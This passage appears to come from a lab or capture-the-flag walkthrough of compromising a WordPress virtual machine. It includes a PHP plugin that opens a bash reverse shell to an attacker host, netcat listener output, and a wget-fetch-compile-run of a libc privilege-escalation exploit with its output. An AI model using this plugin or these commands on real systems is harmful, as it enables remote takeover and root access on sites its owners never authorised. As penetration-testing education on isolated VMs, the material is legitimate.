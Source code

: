 WordPress allow user to install plugin from [WordPress Plugin Directory](https://wordpress.org/plugins/) or upload custom plugin in `.zip` format. We can build our own plugin and install it to get the web shell.

Here is a simple PHP reverse shell in WordPress Plugin format:
```php
<?php
/*
 * Plugin Name: MyWebshell
 * Description: A simple webshell.
 * Version: 1.0
 */
exec("/bin/bash -c 'bash -i >& /dev/tcp/[REVERSE_HOST_IP]/[LISTENED_PORT] 0>&1'");
?>
```
Compress this PHP file to a `zip` file. You can now upload and install this "reverse shell" plugin. All WordPress plugin can be access at `/wp-contents/plugins/[PLUGIN_NAME]/[FILE_NAME]`.

Just start a listening port, you can browse the plugin file you uploaded before and wait for reverse shell coming.
```
$ nc -nvlp 4444
listening on [any] 4444 ...
connect to [192.168.56.104] from (UNKNOWN) [192.168.56.102] 35928
bash: cannot set terminal process group (1223): Inappropriate ioctl for device
bash: no job control in this shell
www-data@vtcsec:/var/www/html/secret/wp-admin$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@vtcsec:/var/www/html/secret/wp-admin$
```

### Get root
Now we have a reverse shell, but the user is `www-data`, we want `root`! Let's try local privilege escalation attack.

First, I used this script [GitHub - mzet-/linux-exploit-suggester: Linux privilege escalation auditing tool](https://github.com/mzet-/linux-exploit-suggester) to search if there is any useful local privilege escalatiopn exploit exist or not.

The result give me a list of some possible exploits, I choose a latest one: [Libc Realpath Buffer Underflow](https://www.halfdog.net/Security/2017/LibcRealpathBufferUnderflow/). 
My victim VM and attack VM (Kali Linux) are both in the same Host Only Network. I start a simple python HTTP server on Kali so I can use `wget` to download exploit code from victim VM and compile it:
```
(Kali) $ python -m SimpleHTTPServer 80

(Victim) $ cd /tmp && wget http://[KALI_IP]/exploit.c
(Victim) $ gcc exploit.c -o exploit
(Victim) $ chmod +x exploit && ./exploit
./exploit
./exploit: setting up environment ...
Detected OS version: "16.04.3 LTS (Xenial Xerus)"
./exploit: using umount at "/bin/umount".
No pid supplied via command line, trying to create a namespace
CAVEAT: /proc/sys/kernel/unprivileged_userns_clone must be 1 on systems with USERNS protection.
Namespaced filesystem created with pid 2874
Attempting to gain root, try 1 of 10 ...
Starting subprocess
Stack content received, calculating next phase
Found source address location 0x7ffe47de78e8 pointing to target address 0x7ffe47de79b8 with value 0x7ffe47de9221, libc offset is 0x7ffe47de78d8
Changing return address from 0x7f4b1c234830 to 0x7f4b1c2d3e00, 0x7f4b1c2e0a20
Using escalation string %69$hn%73$hn%1$2592.2592s%70$hn%1$4621.4621s%67$hn%1$1.1s%71$hn%1$8658.8658s%66$hn%1$16715.16715s%68$hn%72$hn%1$32949.32949s%1$30918.30918s%1$s%1$s%65$hn%1$s%1$s%1$s%1$s%1$s%1$s%1$186.186s%39$hn-%35$lx-%39$lx-%64$lx-%65$lx-%66$lx-%67$lx-%68$lx-%69$lx-%70$lx-%71$lx-%78$s
```